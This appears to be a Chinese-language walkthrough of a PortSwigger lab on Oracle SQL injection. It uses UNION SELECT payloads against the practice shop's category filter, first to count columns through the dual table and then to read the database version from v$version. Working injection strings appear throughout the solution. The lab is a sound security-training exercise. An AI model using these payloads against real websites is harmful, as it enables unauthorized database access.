






# Querying the database type and version on Oracle

### 目標



該購物網站的產品類別篩選器有 SQLi 漏洞，使用 UNION 攻擊執行注入語句來取得資料庫的種類與版本。

讓資料庫取得以下字串：`Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production, PL/SQL Release 11.2.0.2.0 - Production, CORE 11.2.0.2.0 Production, TNS for Linux: Version 11.2.0.2.0 - Production, NLSRTL Version 11.2.0.2.0 - Production`

> [!TIP]
> Hint:
> 
> Oracle 資料庫中，每個 `SELECT` 語句都必須要搭配 `FROM` 與後面指定的表名。然而如果 `UNION SELECT` 攻擊沒有從任何表查詢，仍然需要包含 `FROM` 語句，後面跟著有效的表名。
>
> Oracle 有一個內建表格為 `dual`，即可用在沒有從任何表查詢的狀況。
> 
> 其餘資訊可從 [PortSwigger 網站中的 SQLi cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) 中，查找對各種資料庫有什麼不同的寫法。

---

### Solution

嘗試有多少個欄位，同時遵照 Oracle 特定的規則 -- SELECT 必須搭配 FROM 語句，與它內建的虛擬字典表 `dual` 來寫 Payload：

```sql
-- 隨意點擊任意標籤，然後開始加入 Payload
' UNION SELECT 1,2,3,4,5 FROM dual--
```

然而嘗試到 11 一樣都傳回錯誤：



將嘗試的資料型態 (數字 1,2,3 ...) 改為字串來重新嘗試：

```sql
' UNION SELECT 'a','b' FROM dual--
```



回傳正常網頁了，可知有兩個欄位。

---

查找 cheat sheet 中資料庫版本的部分，如下圖所示：


版本資訊在名為 v$version 或 v$instance 的系統字典表裡。

```sql
' UNION SELECT 'a',banner FROM v$version--
```



網頁下滑至最下方：


可以看到回傳了題目要求要取得的資訊，因此 Payload 為 `' UNION SELECT 'a',banner FROM v$version--`。